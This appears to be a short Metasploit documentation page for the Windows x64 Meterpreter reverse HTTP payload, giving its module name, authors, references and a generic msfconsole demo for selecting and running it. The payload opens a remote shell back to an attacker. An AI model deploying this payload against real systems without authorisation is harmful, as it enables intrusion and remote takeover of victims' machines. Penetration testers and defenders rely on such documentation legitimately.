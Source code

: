 ## Windows Meterpreter Shell, Reverse HTTP Inline (x64)

Connect back to attacker and spawn a Meterpreter shell


## Module Name
payload/windows/x64/meterpreter_reverse_http

## Authors
* OJ Reeves
* sf


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/x64/meterpreter_reverse_http
msf payload(meterpreter_reverse_http) > show targets
   ... a list of targets ...
msf payload(meterpreter_reverse_http) > set TARGET <target-id>
msf payload(meterpreter_reverse_http) > show options
   ... show and set options ...
msf payload(meterpreter_reverse_http) > run
```
    
    